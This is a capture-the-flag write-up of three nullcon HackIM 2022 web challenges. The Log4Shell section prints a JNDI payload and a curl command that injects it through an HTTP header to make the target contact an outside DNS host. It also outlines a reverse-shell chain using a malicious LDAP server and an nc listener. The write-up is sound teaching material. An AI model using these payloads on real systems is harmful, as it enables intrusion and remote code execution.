 ```yaml
---
layout: single
title: nullcon HackIM 2022
excerpt: nullcon HackIM 2022 Web Writeups
date: 2022-4-11
classes: wide
header:
  teaser: 
  teaser_home_page: false
  icon:
categories:
  - CTF
tags:  
  - nullcon HackIM 2022
---
```




| CTFTime Place | Points | Team |
| --- | --- | --- |
| [30](https://ctftime.org/event/1594/) | 912.000 | Solo - trelosgamiolis |


# 0x1 log4u
### Challenge Description
```A teacher once told me to "never log things you can't trust...", but it's such a nice business opportunity, so I couldn't resist.```


![b1a57c3f-71e1-4bbf-b299-717490b428fd](https://user-images.githubusercontent.com/45040001/162817938-341792b4-52b0-4d0b-8a90-cc8598d2b0d6.png)


## Identify log4shell vulnerability by triggering a DNS query
"The simplest way to detect if a remote endpoint is vulnerable is to trigger a DNS query. As explained above, the exploit will cause the vulnerable server to attempt to fetch some remote code. By using the address of a free online DNS logging tool in the exploit string, we can detect when the vulnerability is triggered."

![image](https://user-images.githubusercontent.com/45040001/162826021-f43f8f75-bd20-44c0-be68-52378c202bb3.png)
### Generated log4shell token:
```java
${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}
```

"CanaryTokens.org is an Open Source web app for this purpose that even generates the exploit string automatically and sends an email notification when the DNS is queried. Select Log4Shell from the drop-down menu. Then, embed the string in a request field that you expect the server to log. This could be in anything from a form input to an HTTP header. In our example above, the X-Api-Version header was being logged. This request should trigger it:"

```bash
curl $URL -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}'
```
![Screenshot_2022-04-08_21_17_11](https://user-images.githubusercontent.com/45040001/162826208-c584bd56-8411-4d8e-944e-71bc5925fd36.png)

## POC
[log4j shell poc](https://github.com/kozmer/log4j-shell-poc)

## Exploit Steps
- Generate a reverse shell java class(just modify the poc for forward attack)
- Upload the reverse shell java class in HTTP Server 
- Start malicious ldap server giving the HTTP Server URL for redirecting the victim
- Start nc listener for reverse shell

## Upload reverse shell 
![Screenshot_2022-04-08_23_47_51](https://user-images.githubusercontent.com/45040001/162830955-a74283af-35c7-454e-8a61-dd7534a3ff69.png)

## Final flag
![flag](https://user-images.githubusercontent.com/45040001/162826580-8d33dcae-e97f-4cdc-9679-749646111c9b.png)


# 0x2 texnology

[POC](https://0day.work/hacking-with-latex/)

![Screenshot 2022-04-09 040948](https://user-images.githubusercontent.com/45040001/162831563-36117819-1344-4196-afcc-3200b2cb6a43.png)
![flag](https://user-images.githubusercontent.com/45040001/162831557-7e81bc96-5c76-4b23-ae58-c2057730f618.png)

# 0x3 fil3serv3r

![path_escape](https://user-images.githubusercontent.com/45040001/162831826-38411b88-b19b-4550-b6ab-c218a34e8b10.png)

![flag](https://user-images.githubusercontent.com/45040001/162831828-1529c4d4-b02c-455e-9b7d-d5c0ccf095c2.png)



